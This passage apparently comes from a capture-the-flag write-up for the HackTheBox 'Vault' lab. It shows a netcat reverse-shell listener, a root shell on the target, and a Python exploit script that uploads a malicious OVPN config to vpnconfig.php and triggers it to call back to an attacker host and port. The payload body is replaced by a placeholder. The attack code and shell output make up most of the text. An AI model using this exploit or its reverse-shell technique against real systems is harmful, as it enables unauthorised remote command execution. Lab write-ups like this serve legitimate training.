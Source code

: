 Received a reverse connection on `nc -nlvp 4444`, and transformed it to a pseudo-interactive TTY with Python. We are root on 122.4.

```
root@DNS:/var/www/html# whoami
root

root@DNS:/var/www/html# id 
uid=0(root) gid=0(root) groups=0(root)
```

Now it’s time to create another Python script! This one is much easier to build.

```python
import argparse
import requests
import sys
import urllib

def exploit(target, lhost, lport):

    # upload vpn
    url = f'http://{target}/vpnconfig.php?function=testvpn'
    headers = {
        'Content-Type': 'application/x-www-form-urlencoded'
    }
    data = f'text=<PAYLOAD>&resulturl=google.com'

    print("\n[+] Uploading malicious OVPN file...")
    requests.post(url, headers=headers, data=data)
    
    # execute it
    try:
        requests.get(url, timeout=3)
        print("\n[!] Could NOT establish a reverse shell :(")
        sys.exit(1)

    except requests.Timeout:
        print('\n[+] Check your Netcat listener! :D')

def set_arguments():
    parser = argparse.ArgumentParser(
        description="HTB Vault 2nd Exploit"
    )
    parser.add_argument('-t', '--target', required=True, dest='target')
    parser.add_argument('--lhost', required=True, dest='lhost')
    parser.add_argument('--lport', dest='lport', default=4444, type=int)
    return parser.parse_args()

def main():
    args = set_arguments()
    exploit(args.target, args.lhost, args.lport)

    print("\n[+] Script finished successfully")
    sys.exit(0)

main()
```
**Note**: Had to remove the data because my browser detected it as a trojan :(
